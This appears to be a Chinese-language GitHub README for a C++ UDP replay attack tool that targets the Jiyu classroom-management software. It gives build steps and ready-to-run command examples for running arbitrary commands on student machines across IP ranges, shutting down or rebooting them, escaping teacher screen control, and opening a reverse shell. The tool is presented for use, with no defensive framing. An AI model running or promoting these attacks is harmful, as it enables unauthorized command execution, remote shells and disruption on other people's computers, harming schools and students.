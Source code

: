 # Jiyu-UDP-Attack-Cpp
使用 C++ 编写的 UDP 重放攻击脚本，用于极域电子教室。

English document: [README.md](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/README.md)

## 编译
要求的系统环境：Windows
要求的 C++ 版本：C++14

注：所有头文件已经手动添加到 main.cpp 当中。所以你无需将头文件添加到编译环境中，而可以直接复制/下载 main.cpp 文件并直接编译。

编译命令：

### MSVC
```bash
cl main.cpp /std:c++14 /Fe:main.exe
```

### MinGW
```bash
g++ main.cpp -o main.exe -std=c++14 -lws2_32
```

当使用 GCC / MinGW 编译器时注意：  
确保在引用库的搜索目录中包含了 Windows 相关的程序库。  
不要忘记添加编译参数 `-lws2_32`。如果不使用命令行编译，请在 IDE 的编译选项中加入相应参数。

## 使用方法
通过运行程序或调用如下命令启用用户界面：
```bash
main
```

或者使用命令行调用：
```bash
main [-h(--help) |
  [-i(--i(--ip)) <IP>] [-p <Port>] [-m(--msg) <Message> | -c <Command>]
  [-l <Loop Count>] [-t <Loop Time Interval>]
  [-e <Extra Option>] [-n(--ncport) <NC Port>]]
```

参数列表：
| 参数 | 描述 | 默认值 |
| -------- | ----------- | ------- |
| `-h(--help)` | 显示帮助文本。 | |
| `-i(--ip) <IP>` | 指定目标机的 IP。 | |
| `-p <Port>` | 指定监听的端口。 | 4705 |
| `-m(--msg) <Message>` | 指定要发送的信息。 | |
| `-c <Command>` | 在目标机上运行指定命令。 | |
| `-e <Extra Option>` | 加载额外选项。 | |
| `-l <Loop Count>` | 指定命令的循环次数。 | 1
| `-c <Loop Time Interval>` | 指定两次循环直接的时间间隔，单位为秒。 | 22 |
| `-n(--ncport) <NC Port>` | 指定 `nc` 命令的监听端口。 | 8888 |

在 `-e` 参数的 `<Extra Option>` 选项中，可用的选项有：
| 选项 | 描述 |
| ------ | ----------- |
| `r` | 重启目标机 |
| `s` | 关闭目标机 |
| `g` | 获取当前的 IP 地址和学生端监听的端口。 |
| `nc` | 反弹 Shell。目标机需要能访问互联网。在退出时可使用 `exit` 命令。 |
| `break` | 脱离屏幕控制。需要以管理员身份运行程序。 |
| `continue` | 恢复屏幕控制。 |

在 `-i(--ip)` 参数的 `<IP>` 中，可用的 IP 有：
- 一个独立的 IP。例子： `192.168.1.1`
- 一个 IP 段，以 `/24` 结尾。例子：`1892.168.1.1/24`
- 一个 IP 段，用 `-` 表示。例子： `192.168.1.2-10`  
注意：  
只有 IP 的最后一个数字可以成段。  
这是非法的： `192.168.1-80.1`

### 命令例子
1. 获取当前的 IP 地址和学生端监听的端口

```bash  
main -e g
```

2. 脱离屏幕控制

需要管理员权限，主要为了 MpsSvc。
```bash
main -e break
```

3. 恢复屏幕控制

```bash
main -e continue
```

4. 发送消息

给 IP 为 `192.168.1.1` 的目标机发送消息“Hello!”：
```bash
main --ip 192.168.1.1 --msg "Hello!"
```

如果学生端监听的端口是 **4605**，使用参数 `-p <Port>` 来指定端口号。向 IP 为 `192.168.1.12` 的目标机发送消息“Hello!”：
```bash
main -i 192.168.1.12 -p 4605 -m "Hello!"
```

5. 运行命令

在 IP 为 `192.168.1.12` 到 `192.168.1.137` 的目标机上弹出计算器：
```bash
main -i 192.168.1.12-137 -c calc.exe
```

如果要运行的命令中含有空格，使用引号包裹：
```bash
main -i 192.168.1.1 -c "taskkill /f /im chrome.exe"
```

6. 反弹 Shell

目标机的 IP 应当为**某个IP**，不能批量反弹，且目标机需要能访问互联网。
```bash
main -i 192.168.1.1 -e nc
```

7. 关机重启

关机：
```bash
main 192.168.1.1 -e s
```

重启：
```bash
main 192.168.1.1 -e r
```

8. 循环执行

向 IP 为 `192.168.1.0` 到 `192.168.1.255` 的目标机发送消息“Hello!”，总共 3 次，每两次之间间隔 50 秒：
```bash
main -i 192.168.1.1/24 -m "Hello!" -l 3 -t 50
```

## 头文件指南 & 贡献指南
如果你希望在自己的代码中调用本程序的相关接口，或者在源代码的基础上加以开发，可以参考 `header` 分支下的相关代码。其中所有不同模块的代码被分在不同的文件下，以头文件的形式互相引用。
头文件的文档可以参见：[Jiyu-UDP-Attack-Cpp 头文件文档](https://github.com/pbw-Kevin/Jiyu_udp_attack/blob/header/docs/zh.md)

如果希望对本代码提出贡献，可以提出 Issue / 在 `header` 分支下提出 PR~如果 PR 被合并，会即时对 `main.cpp` 进行更新的！

## 关于
受到了 [ht0Ruial/Jiyu_udp_attack](https://github.com/ht0Ruial/Jiyu_udp_attack) 项目的启发，于是用 C++ 重写了一个。

## 许可证
[MIT 许可证](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/LICENSE)
